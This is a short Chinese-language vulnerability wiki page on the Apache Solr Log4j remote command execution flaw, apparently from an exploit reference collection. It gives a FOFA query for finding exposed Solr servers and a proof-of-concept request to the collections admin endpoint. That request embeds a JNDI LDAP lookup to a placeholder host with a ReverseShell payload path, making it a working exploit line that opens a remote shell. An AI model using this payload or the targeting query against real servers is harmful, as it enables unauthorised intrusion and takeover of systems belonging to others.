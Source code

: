 ```yaml
---
title: Apache Solr Log4j组件 远程命令执行漏洞
---
```

# Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639122271639-51bacb0d-9e88-4234-87c2-cb374d1b98a3.png)

验证POC

```go
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![img](../../../.vuepress/public/img/1639122349239-d4352e9a-59b4-4562-afff-6a529d398d0e.png)

